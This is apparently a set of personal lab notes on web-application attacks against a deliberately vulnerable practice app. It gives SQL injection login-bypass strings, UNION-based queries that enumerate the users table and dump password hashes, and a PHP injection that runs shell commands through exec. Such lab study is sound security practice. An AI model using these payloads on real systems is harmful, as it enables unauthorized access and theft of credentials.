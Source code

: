 ## SQL injection

### Hero form : 
```
select * from heros where username = ''  AND password = ''
```
Solution : we have to pass the sql to be always true
```
username : 'or '1'='1' # 
 ==> select * from heros where username = ''or '1'='1' # '  AND password = '' ==> true
```
Solution 2
```
username: 'or '1'='1
password: 'or '1'='1
select * from heros where username = ''or '1'='1  AND password = ''or '1'='1' ==> false or true and false or true ==> true and true ==> true
```
### GET/search

#### get all movies

```
select * from movies where name like  '%%'
```
```
Solution
%'or 1=1 # attention a space 
```

#### get password hash of user

```
%'order by 7 # at ==> true ==> 7 columns

%' union select 1,2,3,id,5,6,7 from users # attttt ==> true ==> have table name users
%' union select 1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7 from information_schema.columns where table_name='users' # att ==> get all columns name of the table user 
 --- get result: 
 |id|,|login|,|password|,|email|,|secret|,|activation_code|,|activated|,|reset_code|,|admin|

%' union select 1,2,login,password,5,6,7 from users # att ==> get password hash ! 
```

## PHP injection
Low level security: 

```
tested with : message=phpinfo(); ==> YES we can !
phpi.php?message=exec("/bin/bash -c 'whoami'");
```
